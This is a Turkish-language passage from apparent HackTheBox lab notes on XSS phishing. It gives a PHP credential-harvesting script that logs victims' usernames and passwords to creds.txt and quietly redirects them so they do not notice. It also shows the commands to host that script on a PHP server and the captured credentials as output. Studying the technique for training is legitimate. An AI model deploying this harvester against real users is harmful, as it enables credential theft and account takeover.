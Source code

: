 ```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

Ancak, yalnızca bir netcat dinleyicisi ile dinlediğimiz için, HTTP isteğini doğru şekilde işlemeyecek ve kurban, bazı şüpheleri artırabilecek bir Bağlanılamıyor hatası alacaktır. Bu nedenle, HTTP isteğindeki kimlik bilgilerini günlüğe kaydeden ve ardından kurbanı herhangi bir enjeksiyon olmadan orijinal sayfaya döndüren basit bir PHP betiği kullanabiliriz. Bu durumda, kurban başarılı bir şekilde giriş yaptığını düşünebilir ve Resim Görüntüleyiciyi amaçlandığı gibi kullanabilir.

Aşağıdaki PHP betiği ihtiyacımız olanı yapacaktır ve bunu VM'mizde index.php olarak adlandıracağımız bir dosyaya yazacağız ve /tmp/tmpserver/ içine yerleştireceğiz (SERVER_IP'yi alıştırmamızdaki ip ile değiştirmeyi unutmayın):

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Artık index.php dosyamız hazır olduğuna göre, daha önce kullandığımız temel netcat dinleyicisi yerine kullanabileceğimiz bir PHP dinleme sunucusu başlatabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ mkdir /tmp/tmpserver
M1R4CKCK@htb[/htb]$ cd /tmp/tmpserver
M1R4CKCK@htb[/htb]$ vi index.php #at this step we wrote our index.php file
M1R4CKCK@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Enjekte edilen giriş formuna giriş yapmayı deneyelim ve ne elde ettiğimize bakalım. Orijinal Image Viewer sayfasına yönlendirildiğimizi görüyoruz:

![Pasted image 20241116034105.png](/img/user/resimler/Pasted%20image%2020241116034105.png)

Pwnbox'ımızdaki creds.txt dosyasını kontrol edersek, giriş kimlik bilgilerini aldığımızı görürüz:

```shell-session
M1R4CKCK@htb[/htb]$ cat creds.txt
Username: test | Password: test
```

Her şey hazır olduğunda, PHP sunucumuzu başlatabilir ve XSS payload'umuzu içeren URL'yi kurbanımıza gönderebiliriz ve forma giriş yaptıklarında, kimlik bilgilerini alır ve hesaplarına erişmek için kullanırız.

